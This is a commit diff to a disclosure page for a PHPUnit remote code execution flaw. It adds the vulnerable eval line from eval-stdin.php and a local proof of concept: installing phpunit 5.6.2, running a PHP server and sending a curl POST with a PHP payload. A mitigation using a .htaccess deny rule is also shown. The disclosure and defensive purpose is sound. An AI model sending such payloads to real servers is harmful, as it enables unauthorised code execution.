

Before and after one commit to vulnbusters/composer-vulnbusters.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 480-1558 px from the top of the page, without its empty margins (108-1131 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Details added

```diff
--- a/index.html
+++ b/index.html
@@ -32,6 +32,47 @@
 				</p>
 				<p>
 					Usually <code>phpunit</code> is deployed using <code>composer</code>, a very popular dependency manager for PHP. In most cases <code>phpunit</code> isn't required for the production environment, but nonetheless it is installed. Placing composer modules into web accessible directory is another common mistake that allows direct exploitation of this vulnerability.
+				</p>
+				<p>
+					The vulnerability was accidentally patched by Bob Weinand in Nov 2016 without any security advisory.
+				</p>
+				<p>
+					Despite the fact that the fixed version is available for several months, there are still thousands of servers on the Internet that have a vulnerable library installed. So we decided to publicly disclose this vulnerability.
+				</p>
+				<h3>Details</h3>
+				<p>
+					Vulnerability is located in <code>/phpunit/src/Util/PHP/eval-stdin.php</code> file. Before patch this file contained
+				</p>
+					<pre><code class="php">eval('?>'.file_get_contents('php://input'));</code></pre>
+				<p>
+					that could be used to run arbitrary PHP code.
+				</p>
+				<h3>PoC</h3>
+				<p>
+					For PoC purpose you can do following (suppose you have <code>php</code> and <code>composer</code> already installed):
+				</p>
+				<ol>
+					<li>
+						<p>
+							Install vulnerable version of phpunit, e.g. <code>5.6.2</code>
+						</p>
+						<pre><code class="bash">$ composer require phpunit/phpunit:5.6.2</code></pre>
+					</li>
+					<li>
+						<p>
+							Run PHP internal web server with webroot in the same directory and custom port, e.g. <code>8888</code>:
+						</p>
+						<pre><code class="bash">$ php -S 127.0.0.1:8888</code></pre>
+					</li>
+					<li>
+						<p>
+							Use <code>curl</code> to send <code>POST</code> request. Body (<code>--data</code>) should contains payload:
+						</p>
+						<pre><code class="bash">$ curl --data "&lt;?php echo(pi());" http://localhost:8888/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php</code></pre>
+					</li>
+				</ol>
+				<p>
+					you should see &pi; value in the response.
 				</p>
 				<h2>FAQ</h2>
 				<h3>Is my site vulnerable?</h3>
@@ -81,7 +122,7 @@
 					</li>
 					<li>
 						<p>
-							Disable direct access to the <code>composer</code> packages. For that place <code>.htaccess</code> file to <code>/vendor</code> folder:
+							Disable direct access to the <code>composer</code> packages by placing <code>.htaccess</code> file to <code>/vendor</code> folder:
 						</p>
 						<pre style="margin-left: 0"><code class="apache">Deny from all</code></pre>
 					</li>
```
